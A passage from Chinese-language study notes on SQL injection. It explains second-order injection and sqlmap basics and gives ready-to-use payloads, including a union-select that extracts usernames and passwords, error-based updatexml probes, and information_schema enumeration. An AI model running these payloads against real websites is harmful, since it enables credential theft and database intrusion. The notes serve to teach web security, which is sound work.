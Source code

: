 -1' union select 1,(select group_concat(concat_ws('_',username,password)) from users),database() -- qwe
```

#### (6). 二次注入

##### a. 概述

* 已**存储的用户输入**被**读取**后，**再次进入到sql查询语句**中导致的注入

##### b. 原理

1. 网站在对用户输入**恶意数据**时进行**转义处理**
2. 恶意数据**插入到数据库**时又被**还原并存储**到数据库中
3. 系统**再次调用**该恶意数据并**执行sql查询**时，被成功注入(因为调用时不会考虑转义问题)

##### c. 实例 

```
//一个页面，能显示登录后的用户名，这时可以注册不同的payload名的账号，来进行注入
1' and updatexml(1,concat(0x7e,database(),0x7e),1)#

1' order by 5#

1' union select 1,2,3,4,5#

1' union select 1,database(),3,4,5#

1' union select 1,(select table_name from information_schema.tables where table_schema=database()),2,3,4,5#

1' union select 1,user(),3,4,5#
```

### 9. Sqlmap

#### (1).介绍

##### a. 工作流程

1. 检测网站是否能够访问
2. 检测是否有waf
3. 判断可注入的参数
4. 判断可以使用哪种Sql注入技术
5. 识别出数据库种类
6. 根据用户输入的参数，进行操作

##### b. 支持的注入模式

1. 联合查询注入
2. 基于报错注入
3. 布尔、时间盲注
4. 堆叠查询注入
5. 内联查询注入

#### (2). 使用

##### a. 基本流程

###### ①检测注入点

* sqlmap -u "带参数网址"

###### ②查看所有数据库

* sqlmap -u "带参数网址" --dbs
```